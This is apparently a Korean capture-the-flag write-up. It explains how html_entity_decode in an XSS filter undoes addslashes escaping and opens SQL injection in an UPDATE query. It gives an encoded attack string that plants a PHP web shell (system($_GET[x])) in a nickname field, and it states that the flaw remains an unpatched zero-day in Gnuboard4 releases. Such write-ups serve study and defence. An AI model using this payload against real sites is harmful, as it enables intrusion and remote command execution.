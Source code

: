 xss를 방어하기 위해서 html_entity_decode함수를 사용하는데 여기에서 문제가 발생한다.

만약 aaaa"bbbb 를 사용한다면 어떻게 될까?

위 데이터가 html_entity_decode를 거치면 아래와 같이 변환된다.

```php
aaaa"bbbb

```

따라서 우리는 quot문자를 사용할 수 있고 update 문에서 SQLI가 발생하게 할 수 있다.

### 공격 코드

```php
aaaa&quot;, nickname=&quot;<?php system($_GET[x]);

```

### 변환된 공격 코드

```php
aaaa", nickname="<?php system($_GET[x]);

```

사실 이렇게만 보면 아주 간단하고 쉬운 문제이지만, 이 문제를 내게된 배경이 있다.

xss_filter 함수는 그누보드4에서 사용되는 "xss_clean" 함수 이고 제로데이 취약점이였다. 지금은 그누보드5가 배포되고 있어서 문제는 없지만 아직도 그누보드4 배포본 에서는 제로데이 취약점으로 남아 있다.

그누보드4에서는 "common.php"에서 mysqli_real_escape_string 대용으로 addslashes 함수를 이용해 서버로 오는 변수에 대해 전체적으로 SQLI를 방어하고 "extract($_GET);", "extract($_POST);"를 사용하여 서버에 오는 변수를 그대로 PHP 변수로 사용할 수 있다.

```php
if( !get_magic_quotes_gpc() )
{
	if( is_array($_GET) )
	{
		while( list($k, $v) = each($_GET) )
		{
			if( is_array($_GET[$k]) )
			{
				while( list($k2, $v2) = each($_GET[$k]) )
				{
					$_GET[$k][$k2] = addslashes($v2);
				}
				@reset($_GET[$k]);
			}
			else
			{
				$_GET[$k] = addslashes($v);
			}
		}
		@reset($_GET);
	}

same $_POST ...

same $_COOKIE ...
}

```
